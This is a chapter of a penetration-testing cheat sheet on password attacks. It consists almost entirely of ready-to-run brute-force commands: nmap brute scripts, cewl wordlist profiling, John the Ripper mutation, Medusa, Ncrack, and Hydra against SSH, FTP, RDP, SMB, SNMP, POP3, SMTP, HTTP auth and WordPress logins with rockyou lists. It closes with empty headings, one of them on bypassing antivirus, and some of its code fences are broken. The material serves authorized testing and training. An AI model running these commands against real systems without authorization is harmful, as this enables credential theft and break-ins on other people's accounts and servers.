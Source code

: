 # Additional

## Password Attacks


### Brute Force

#### Nmap Brute forcing Scripts
        [*https://nmap.org/nsedoc/categories/brute.html*](https://nmap.org/nsedoc/categories/brute.html)

#### Nmap Generic auto detect brute force attack:

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nmap --script brute -Pn <target.com or ip>
A> ~~~

#### MySQL nmap brute force attack:

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nmap --script=mysql-brute $ip
A> ~~~

### Dictionary Files

#### Word lists on Kali

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# cd /usr/share/wordlists
A> ~~~

### Password Profiling

#### cewl can generate a password list from a web page

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
A> ~~~

### Password Mutating

#### John the ripper can mutate password lists

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nano /etc/john/john.conf
A> root@linux:~# john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
A> ~~~

### Medusa

#### Medusa, initiated against an htaccess protected web

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
A> ~~~

### Ncrack

#### ncrack (from the makers of nmap) can brute force RDP

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# ncrack -vv --user offsec -P password-file.txt rdp://$ip
A> ~~~


### Hydra

#### Hydra brute force against SNMP

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -P password-file.txt -v $ip snmp
A> ~~~

#### Hydra FTP known user and rockyou password list

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
A> ~~~

#### Hydra SSH using list of users and passwords

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH using a known password and a username list

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH Against Known username on port 22

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt
A> ~~~~

#### Hydra POP3 Brute Force

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V
A> ~~~

#### Hydra SMTP Brute Force

A> {line-numbers=off,lang=console}
A> ~~~
A>  root@linux:~# hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
A> 

 #### Hydra attack http get 401 login with a dictionary

A> {line-numbers=on,lang=console}
A> ~~~
root@linux:~# hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin


#### Hydra attack Windows Remote Desktop with rockyou

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
A> ~~~

#### Hydra brute force SMB user with rockyou:

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb
A> ~~~

#### Hydra brute force a Wordpress admin login

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
A> ~~~










## Attack Vectors



## Bypassing Antivirus Software


